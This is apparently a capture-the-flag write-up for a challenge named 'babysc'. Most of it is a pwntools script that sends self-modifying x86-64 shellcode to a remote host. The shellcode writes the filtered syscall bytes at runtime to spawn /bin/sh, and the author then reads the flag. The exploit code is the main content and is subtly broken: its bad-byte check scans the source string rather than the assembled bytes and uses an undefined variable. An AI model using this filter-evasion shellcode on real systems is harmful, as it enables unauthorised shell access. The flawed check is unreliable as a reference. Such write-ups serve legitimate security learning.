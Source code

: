 ```python
from pwn import *

exe = './babysc'
elf = context.binary = ELF(exe, checksec=True)
#context.log_level = 'DEBUG'
context.arch='amd64'

sh = remote('34.133.69.112', 10001)
#sh = process(exe)

forbidden_pairs = [b'\x0f\x05', b'\x0f\x34', b'\xcd\x80']

shellcode = '''
    /* Get address of placeholder using GAS RIP-relative syntax */
    lea rbx, [rip + placeholder]
    /* Write forbidden syscall bytes DYNAMICALLY (0x0f 0x05) */
    mov byte ptr [rbx], 0x0f
    mov byte ptr [rbx + 1], 0x05
    /* Set up execve("/bin/sh", 0, 0) */
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  /* /bin//sh */
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov eax, 0x3b               /* execve syscall number */
    jmp rbx                     /* Jump to modified code */
placeholder:
    .byte 0x90, 0x90            /* Placeholder for syscall */  
'''

sc = asm(shellcode)

for i in range(len(sc) - 1):
    pair = shellcode[i:i+2]  
    if pair in forbidden_pairs:
        print(f'BAD BYTE --> 0x{byte:02x}')  
        print(f'ASCII --> {chr(byte)}')

sh.recvline()
sh.sendline(sc.ljust(0x1000, b'\x90'))
sh.interactive()
```

The shellcode given to the binary will:

1. Calculate the address of the placeholder at runtime  
2. Write the forbidden syscall bytes dynamically  
3. Execute /bin/sh using the execve syscall

After that, I execute the python script I successfully enter to the instance given then I use `cat /flag` (based on the Dockerfile given) to get the flag content. Boom flag found. 
